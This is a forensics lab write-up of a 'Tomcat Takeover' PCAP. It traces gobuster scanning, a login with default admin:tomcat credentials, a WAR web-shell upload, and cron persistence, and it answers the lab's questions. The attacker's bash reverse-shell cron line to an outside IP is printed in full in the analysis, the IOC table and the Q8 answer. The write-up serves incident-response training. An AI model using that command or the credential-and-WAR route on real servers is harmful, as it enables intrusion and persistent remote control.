








# Tomcat Takeover – Brute Force, WAR Upload and Persistence

# Scenario & Objective

A suspicious spike of traffic (about 2 MB and 20,000 packets) was detected against an internal web server. The lab gives me the PCAP. The goal is to identify the attacker, the entry point, what was executed and how access was kept.

- **Category**: Network Forensics
- **Tools**: Wireshark, CyberChef, IP geolocation lookup

## Overview

The attacker `14[.]0[.]0[.]120` (ChinaNet Guangdong, China) scanned the web server `10.0.0.112`, enumerated directories with gobuster and found `/manager` on port 8080. He then logged in to the Tomcat Manager with `admin:tomcat` and uploaded `JXQOZY.war`. The WAR gave him a root shell, and he set up persistence with a cron job that opens a reverse shell to his machine on port 443 every minute.

# Analysis

## Phase 1: Reconnaissance & Enumeration (T1595 - Active Scanning)

- The investigation initiated by analyzing the largest traffic stream in Wireshark (Stream ID 2). The threat actor (14[.]0[.]0[.]120) actively scanned the target's port 8080.

    
  <em>Image 1</em>

- An IP geolocation and Threat Intelligence lookup for the attacker's IP address reveals that it is assigned to the ChinaNet Guangdong ISP.

    
  <em>Image 2</em>

- By following the HTTP stream, the User-Agent string explicitly identified the enumeration tool as **gobuster/3.6**. The PCAP shows a massive volume of 404 Not Found responses, confirming an aggressive directory fuzzing and brute-force attempt to map the web server's hidden endpoints.

    
  <em>Image 3</em>

    
  <em>Image 4</em>

## Phase 2: Initial Access & Credential Compromise (T1110 - Brute Force)

- The Gobuster scan successfully uncovered the Tomcat administrative interface located at the GET /manager endpoint.

    
  <em>Image 5: Attacker successfully discovering the Tomcat /manager directory.</em>

- Following this discovery, the attacker initiated a credential brute-force attack against the HTTP Basic Authentication mechanism protecting the /manager/html directory. Packet inspection of the http.authbasic filter revealed that the attacker successfully bypassed authentication using default/weak credentials. The decoded base64 Authorization header contained the payload: **admin:tomcat**.

    
  <em>Image 6: Captured HTTP Basic Auth credentials successfully decoded as admin:tomcat.</em>

## Phase 3: Execution & Payload Delivery (T1505.003 - Server Software Component: Web Shell)

- Upon gaining administrative access to the Tomcat Manager panel, the attacker leveraged the application deployment feature to achieve code execution. Analysis of the HTTP POST requests to /manager/html/upload revealed a multipart form-data submission.

- The Content-Disposition header within this payload confirmed the upload of a malicious Web Application Archive file named **JXQOZY.war**. In Tomcat environments, .war files are automatically deployed, allowing the embedded web shell to execute with the privileges of the Tomcat service.

    
  <em>Image 7: Content-Disposition header confirming the upload of the JXQOZY.war payload.</em>

## Phase 4: Persistence & Command and Control (T1053.003 - Scheduled Task/Job: Cron)

- After achieving RCE, the attacker established a Command and Control (C2) channel and ensured persistence on the compromised host. Inspection of the plaintext TCP streams showed the attacker gaining an interactive shell with root privileges.

- To maintain this access, the attacker navigated to the /tmp directory and injected a malicious scheduled task into the system's cron daemon. The specific persistence payload executed was: `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14[.]0[.]0[.]120/443 0>&1'" > cron`

- This cron job silently forces the victim server to initiate a reverse shell connection back to the attacker's IP on port **443** every minute.

    
  <em>Image 8: Attacker executing whoami as root and establishing a cron job for a reverse shell over port 443.</em>

## Indicators of Compromise

| Type | Value |
|---|---|
| Attacker IP | `14[.]0[.]0[.]120` (ChinaNet Guangdong) |
| Scanner User-Agent | `gobuster/3.6` |
| Credentials used | `admin:tomcat` (Tomcat Manager, HTTP Basic) |
| Malicious file | `JXQOZY.war` |
| Persistence | Cron: `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14[.]0[.]0[.]120/443 0>&1'` |

# Answer the Questions

**Q1: Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?**

`14[.]0[.]0[.]120`

**Q2: Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?**

China

**Q3: From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?**

`8080`

**Q4: Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?**

Gobuster (`gobuster/3.6`).

**Q5: After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?**

`/manager`

**Q6: After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?**

`admin:tomcat`

**Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?**

`JXQOZY.war`

**Q8: After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?**

`* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14[.]0[.]0[.]120/443 0>&1'`
